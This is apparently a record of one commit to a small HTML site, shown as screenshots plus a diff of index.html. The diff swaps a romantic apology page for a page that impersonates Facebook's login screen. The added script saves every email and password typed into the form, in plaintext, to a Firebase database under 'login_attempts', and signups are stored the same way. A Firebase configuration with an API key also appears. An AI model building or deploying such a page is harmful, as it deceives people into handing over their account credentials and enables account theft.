

Before and after one commit to sia459/Sia, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 320-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,200 +3,218 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>For Sia 💖</title>
-  <link href="https://fonts.googleapis.com/css2?family=Poppins :wght@400;600&display=swap" rel="stylesheet">
+  <title>Facebook Login</title>
   <style>
-    /* Reset & Base */
     * {
-      margin: 0;
-      padding: 0;
       box-sizing: border-box;
+      font-family: Helvetica, sans-serif;
     }
 
     body {
-      min-height: 100vh;
-      font-family: 'Poppins', sans-serif;
-      background: linear-gradient(135deg, #fbc2eb, #a6c1ee);
+      background-color: #fff;
       display: flex;
+      justify-content: center;
       align-items: center;
-      justify-content: center;
-      overflow: hidden;
-      color: #fff;
-      position: relative;
+      height: 100vh;
+      margin: 0;
+      font-family: Arial, sans-serif;
     }
 
-    .container {
-      text-align: center;
-      padding: 2rem;
-      animation: fadeInUp 1s ease-out;
-      z-index: 2;
-      position: relative;
+    .login-container {
+      background-color: white;
+      padding: 30px;
+      width: 360px;
+      box-shadow: 0 2px 4px rgba(0,0,0,0.2);
+      border-radius: 8px;
     }
 
-    h1 {
-      font-size: 2.2rem;
-      margin-bottom: 1rem;
-      text-shadow: 2px 2px 5px rgba(0, 0, 0, 0.3);
+    .facebook-logo {
+      text-align: center;
+      margin-bottom: 20px;
     }
 
-    p {
-      font-size: 1.1rem;
-      max-width: 400px;
-      margin: 0 auto 2rem;
-      line-height: 1.7;
-      white-space: pre-line;
-      font-style: italic;
+    .facebook-logo img {
+      width: 150px;
     }
 
-    .button-group {
-      display: flex;
-      justify-content: center;
-      gap: 20px;
-      flex-wrap: wrap;
+    .input-field {
+      width: 100%;
+      padding: 12px 10px;
+      margin: 10px 0;
+      border: 1px solid #dddfe2;
+      border-radius: 6px;
+      font-size: 16px;
     }
 
-    button {
-      padding: 12px 24px;
-      font-size: 1rem;
+    .login-btn {
+      width: 100%;
+      background-color: #1877f2;
+      color: white;
+      font-weight: bold;
+      padding: 12px 10px;
       border: none;
-      border-radius: 30px;
-      background-color: white;
-      color: #ff69b4;
+      border-radius: 6px;
+      font-size: 18px;
       cursor: pointer;
-      transition: all 0.3s ease;
-      box-shadow: 0 4px 15px rgba(0,0,0,0.2);
     }
 
-    button:hover {
-      transform: scale(1.05);
-      background-color: #ffe6f0;
+    .login-btn:hover {
+      background-color: #166fe5;
     }
 
-    img.happy-gif {
-      max-width: 100%;
-      height: auto;
-      margin-top: 20px;
-      display: none;
-      border-radius: 10px;
+    .forgot {
+      text-align: center;
+      margin-top: 10px;
     }
 
-    @keyframes fadeInUp {
-      from { opacity: 0; transform: translateY(30px); }
-      to { opacity: 1; transform: translateY(0); }
+    .forgot a {
+      color: #1877f2;
+      text-decoration: none;
+      font-size: 14px;
     }
 
-    /* Floating Hearts */
-    .hearts {
-      position: fixed;
+    .create-btn {
+      background-color: #42b72a;
+      color: white;
+      font-weight: bold;
+      padding: 12px 16px;
+      margin-top: 20px;
+      border: none;
+      border-radius: 6px;
+      font-size: 16px;
       width: 100%;
-      height: 100%;
-      overflow: hidden;
-      pointer-events: none;
-      z-index: 0;
+      cursor: pointer;
     }
 
-    .heart {
-      position: absolute;
-      width: 15px;
-      height: 15px;
-      background: pink;
-      transform: rotate(45deg);
-      border-radius: 2px;
-      animation: floatUp 8s infinite ease-in;
+    .create-btn:hover {
+      background-color: #36a420;
     }
 
-    .heart::before,
-    .heart::after {
-      content: '';
-      position: absolute;
-      width: 15px;
-      height: 15px;
-      background: pink;
-      border-radius: 50%;
+    .footer-links {
+      text-align: center;
+      margin-top: 20px;
+      font-size: 12px;
+      color: #727272;
     }
 
-    .heart::before {
-      top: -7.5px;
-      left: 0;
+    .footer-links a {
+      color: #727272;
+      text-decoration: none;
+      margin: 0 5px;
     }
 
-    .heart::after {
-      left: -7.5px;
-      top: 0;
-    }
-
-    @keyframes floatUp {
-      0% {
-        bottom: -20px;
-        opacity: 0;
-      }
-      50% {
-        opacity: 1;
-      }
-      100% {
-        bottom: 100vh;
-        opacity: 0;
-      }
+    .footer-links a:hover {
+      color: #1877f2;
     }
   </style>
 </head>
 <body>
 
-<div class="container">
-  <h1>Hi Sia 💕</h1>
-  <p>"I'm really sorry for being distant lately. I know my silence might've hurt you, and I hate that. Thank you for still waiting, even when I wasn't there. I miss you more than words can say. And I promise — I'll do better."</p>
-
-  <div id="buttons">
-    <div class="button-group">
-      <button id="yesBtn">Yes ❤️</button>
-      <button id="noBtn">No 😢</button>
+  <div class="login-container">
+    <div class="facebook-logo">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/51/Facebook_f_logo_%282019%29.svg/2048px-Facebook_f_logo_%282019%29.svg.png " alt="Facebook Logo">
+    </div>
+    <form id="loginForm">
+      <input type="text" class="input-field" placeholder="Email or phone number" id="email" required/>
+      <input type="password" class="input-field" placeholder="Password" id="password" required/>
+      <button type="submit" class="login-btn">Log In</button>
+      <div class="forgot">
+        <a href="#">Forgot account?</a>
+      </div>
+    </form>
+    <button type="button" class="create-btn" onclick="signUp()">Create New Account</button>
+    <div class="footer-links">
+      <p><a href="#">Create a Page</a> for a celebrity, brand or business.</p>
     </div>
   </div>
 
-  <img src="https://media.giphy.com/media/3oEjI6SIIHBdRxXI40/giphy.gif " alt="Happy Couple Hug" class="happy-gif" id="happyGif">
-</div>
+  <!-- Firebase SDK -->
+  <script type="module">
+    // Import Firebase modules
+    import { initializeApp } from "https://www.gstatic.com/firebasejs/11.8.1/firebase-app.js ";
+    import { getAuth, createUserWithEmailAndPassword, signInWithEmailAndPassword } from "https://www.gstatic.com/firebasejs/11.8.1/firebase-auth.js ";
+    import { getDatabase, ref, push, set } from "https://www.gstatic.com/firebasejs/11.8.1/firebase-database.js ";
 
-<!-- Heart Particles -->
-<div class="hearts" id="hearts"></div>
+    // Your Firebase config
+    const firebaseConfig = {
+      apiKey: "AIzaSyCwlxwW0VVn0UI3UH4bIcY1-d-21G6xOB4",
+      authDomain: "facebook-65219.firebaseapp.com",
+      projectId: "facebook-65219",
+      storageBucket: "facebook-65219.firebasestorage.app",
+      messagingSenderId: "726094677615",
+      appId: "1:726094677615:web:8f7a6c7d3e3f4d7b213179"
+    };
 
-<script>
-  const yesBtn = document.getElementById('yesBtn');
-  const noBtn = document.getElementById('noBtn');
-  const happyGif = document.getElementById('happyGif');
-  const buttons = document.getElementById('buttons');
+    // Initialize Firebase
+    const app = initializeApp(firebaseConfig);
+    const auth = getAuth(app);
+    const db = getDatabase(app); // Realtime Database instance
 
-  let noClickCount = 0;
+    // Helper function to log login attempt in Realtime Database
+    async function logLoginAttempt(email, password) {
+      const loginAttemptsRef = ref(db, 'login_attempts'); // Path in DB
+      const newAttemptRef = push(loginAttemptsRef); // Generates unique key
 
-  yesBtn.addEventListener('click', () => {
-    buttons.style.display = 'none';
-    happyGif.style.display = 'block';
-  });
+      try {
+        await set(newAttemptRef, {
+          email: email,
+          password: password, // ⚠️ Not safe in production
+          timestamp: new Date().toISOString(),
+          status: "attempted"
+        });
+        console.log("✅ Login attempt saved to Realtime Database");
+      } catch (error) {
+        console.error("❌ Failed to save login attempt:", error.message);
+      }
+    }
 
-  noBtn.addEventListener('click', () => {
-    noClickCount++;
+    // Handle login form submission
+    document.getElementById('loginForm').addEventListener('submit', async (e) => {
+      e.preventDefault();
 
-    if (noClickCount === 1) {
-      yesBtn.style.padding = '15px 30px';
-      noBtn.style.padding = '8px 16px';
-    } else if (noClickCount === 2) {
-      yesBtn.style.padding = '18px 36px';
-      noBtn.style.padding = '6px 12px';
-    } else if (noClickCount === 3) {
-      noBtn.style.display = 'none';
+      const email = document.getElementById('email').value;
+      const password = document.getElementById('password').value;
+
+      await logLoginAttempt(email, password); // Save email & password to DB
+
+      try {
+        const userCredential = await signInWithEmailAndPassword(auth, email, password);
+        console.log("🟢 Login successful:", userCredential.user);
+        alert("Login successful!");
+      } catch (error) {
+        console.error("🔴 Login failed:", error.code, error.message);
+        if (error.code === 'auth/user-not-found' || error.code === 'auth/wrong-password') {
+          alert("Invalid email or password.");
+        } else {
+          alert(`Error: ${error.message}`);
+        }
+      }
+    });
+
+    // Function to sign up new users
+    async function signUp() {
+      const email = document.getElementById('email').value;
+      const password = document.getElementById('password').value;
+
+      try {
+        const userCredential = await createUserWithEmailAndPassword(auth, email, password);
+        const user = userCredential.user;
+
+        const usersRef = ref(db, 'users/' + user.uid);
+        await set(usersRef, {
+          email: email,
+          password: password, // ⚠️ Not safe in production
+          createdAt: new Date().toISOString()
+        });
+
+        alert("Account created successfully!");
+        console.log("🔵 User registered:", user);
+      } catch (error) {
+        alert("Error creating account: " + error.message);
+        console.error("🔴 Signup error:", error);
+      }
     }
-  });
-
-  // Generate Hearts
-  const heartsContainer = document.getElementById('hearts');
-  for (let i = 0; i < 30; i++) {
-    const heart = document.createElement('div');
-    heart.classList.add('heart');
-    heart.style.left = Math.random() * 100 + '%';
-    heart.style.animationDuration = (6 + Math.random() * 4) + 's';
-    heart.style.width = heart.style.height = (10 + Math.random() * 15) + 'px';
-    heartsContainer.appendChild(heart);
-  }
-</script>
+  </script>
 
 </body>
 </html>
```
